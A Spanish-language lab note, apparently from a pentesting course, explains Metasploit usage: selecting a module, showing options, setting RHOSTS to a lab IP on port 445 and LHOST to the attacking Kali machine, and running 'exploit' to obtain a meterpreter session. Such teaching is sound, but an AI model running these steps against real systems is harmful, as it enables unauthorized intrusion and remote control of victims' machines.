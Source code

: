 ```bash	
use 0 
```
despues podemos usar el comando:

```bash
show options
```
![Comando use 0](img/comandouse0.png)

Este comando muestra las opciones disponibles para el módulo seleccionado, incluyendo los parámetros que debemos configurar antes de ejecutar el exploit.
Luego, debemos configurar los parámetros necesarios para el exploit. Por ejemplo, podemos establecer la dirección IP del objetivo y el puerto.

Mario nos explica que existe el exploit y dentro del exploit está el payload.

Una vez que el exploit haya entrado en la máquina víctima, podemos ejecutar el payload.

una vez entendio esto, podemos configurar los parámetros necesarios para el exploit. Por ejemplo, podemos establecer la dirección IP del objetivo y el puerto.

```bash	
set RHOSTS 192.168.1.195
```
```bash
set RPORT 445
```

LHOST corresponde con mi máquina atacante, que en este caso es Kali Linux.

si necesitamos configurarlo se lanza el comando:

```bash
set LHOST [Dirección IP de la máquina atacante, en este caso Kali Linux]
```	

para ejecutarlo usamos el comando: 

```bash
exploit
```
O
```bash
run
```
Una vez que el exploit se haya ejecutado correctamente, deberíamos obtener una sesión de meterpreter en la máquina víctima. Esto nos permitirá interactuar con el sistema comprometido y realizar diversas acciones, como ejecutar comandos, transferir archivos o escalar privilegios.

